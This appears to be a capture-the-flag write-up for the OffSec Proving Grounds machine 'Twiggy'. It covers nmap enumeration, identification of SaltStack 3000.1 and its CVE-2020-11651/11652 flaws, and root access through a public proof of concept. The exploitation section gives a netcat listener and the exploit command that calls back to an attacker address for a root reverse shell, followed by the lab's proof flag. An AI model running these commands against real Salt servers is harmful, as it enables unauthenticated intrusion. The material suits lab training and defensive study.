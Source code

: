 # CTF Writeup: Twiggy (Proving Grounds)

**Platform:** OffSec Proving Grounds\
**IP Address:** 192.168.55.62\
**Difficulty:** Easy

---

## 🌟 Overview

Twiggy is an OffSec Proving Grounds machine that exposes several services, including a SaltStack installation vulnerable to CVE-2020-11652. We enumerate open ports and versions, identify the Salt API, and gain root access through an unauthenticated RCE vulnerability.

---

## 🔍 Enumeration

### 🔎 Nmap

```bash
nmap -p- 192.168.55.62
```

```
Ports Found:
22/tcp   OpenSSH 7.4
53/tcp   NLnet Labs NSD
80/tcp   nginx 1.16.1 (Mezzanine CMS)
4505/tcp ZeroMQ ZMTP 2.0
4506/tcp ZeroMQ ZMTP 2.0
8000/tcp nginx 1.16.1 (Salt API JSON Response)
```

```bash
nmap -p 22,53,80,4505,4506,8000 -sCV 192.168.55.62
```

- Port 8000 returned JSON identifying the backend as `salt-api/3000-1`

### 🤖 Web & API Analysis

```bash
curl http://192.168.55.62:8000
```

Response:

```json
{"clients": ["local", ..., "wheel_async"], "return": "Welcome"}
```

**Header:** `X-Upstream: salt-api/3000-1`

---

## 🚀 Exploitation

### 🔍 Identify Vulnerability

SaltStack version 3000.1 is vulnerable to:

- **CVE-2020-11651** (Auth bypass)
- **CVE-2020-11652** (Directory traversal / RCE)

```bash
searchsploit saltstack
```

- Found Exploit: [https://www.exploit-db.com/exploits/48421](https://www.exploit-db.com/exploits/48421)
- PoC Used: [https://github.com/Al1ex/CVE-2020-11652](https://github.com/Al1ex/CVE-2020-11652)

### 🛠️ Setup Exploit

Initial error:

```bash
ModuleNotFoundError: No module named 'salt'
```

Fixed with:

```bash
python3 -m pip install salt --break-system-packages
```

Other required modules:

```bash
python3 -m pip install looseversion pyzmq --break-system-packages
```

### ⚔️ Exploit Execution

```bash
nc -lvnp 80
python3 CVE-2020-11652.py --master 192.168.55.62 --port 4506 -lh 192.168.49.55 -lp 80 --exec-choose master
```

Shell received as root:

```bash
[root@twiggy root]# cat proof.txt
2c62fdee43317a2c5a26738b03ece8d1

# Hash Verification
sha256sum proof.txt
b07fb99fafc4e996a9e63c09f07b06d7be25f112d7f85d1125f7deec4eb3d4a4
md5sum proof.txt
743ce2f8539730798b19448bba6f7318
```
---

## 💡 Lessons Learned

- SaltStack versions prior to 3000.2 are **dangerously exposed** if not firewalled.
- Proper dependency management in Kali often requires using `--break-system-packages` or `pipx`.
- Always verify the running version of services via HTTP headers or `/version` endpoints.
- PG boxes often reward direct exploitation of known CVEs.

---

## 🔒 Proof Screenshot
<img src="https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/pg_twiggy.png"/>


---

## 📊 Summary

- Salt API RCE via CVE-2020-11652
- Root access immediately due to unauthenticated nature
- Flag found at `/root/proof.txt`

"Writeup and proof included in GitHub repo: https://github.com/inkedqt/ctf-writeups/tree/main/Other/PG/Twiggy"